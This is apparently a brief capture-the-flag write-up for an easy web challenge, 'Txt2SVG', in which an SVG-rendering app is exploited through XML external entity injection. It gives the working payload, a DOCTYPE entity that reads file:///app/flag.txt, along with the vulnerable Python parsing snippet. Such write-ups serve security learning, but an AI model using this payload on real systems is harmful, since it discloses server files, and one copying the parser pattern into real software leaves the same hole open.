 # Txt2SVG

Author: reyes

> I made a webapp which can convert your text into a styled svg picture, but for some reason the comments that you can put in aren't in the final result. Why?

**Difficulty: Easy**

## Solution

In the box for text: `&xxe;`  
Any font/size, any dimensions.  
In comment: `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/flag.txt">]>`  

SVG is parsed, external entity called "xxe" is loaded, written into output svg

```py
raw = ET.fromstring(xml)
rendered = ET.tostring(raw)
```
